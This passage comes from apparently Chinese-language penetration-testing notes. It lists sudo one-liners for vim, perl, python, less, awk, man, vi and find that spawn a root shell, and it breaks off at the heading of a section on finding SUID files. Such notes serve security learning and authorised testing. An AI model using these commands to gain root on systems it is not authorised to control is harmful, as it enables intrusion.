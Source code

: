 - vim
    ```bash
    sudo vim -c '!bash'
    ```

- perl:
    ```bash
    sudo perl -e 'exec "/bin/bash";'
    ```

- python:
    ```bash
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    ```

- less
    ```bash
    sudo less /etc/hosts
    v
    :shell
    ```

- awk
    ```bash
    sudo awk 'BEGIN {system("/bin/bash")}'
    ```

- man
    ```bash
    sudo man man
    !/bin/bash
    ```

- vi
    ```bash
    sudo vi

    :!bash
    或
    :!/bin/sh
    或
    :set shell=/bin/sh
    :shell
    ```

- find
    ```bash
    find . -exec /bin/sh \;
    ```

---

#### suid

**找带 suid 的文件**
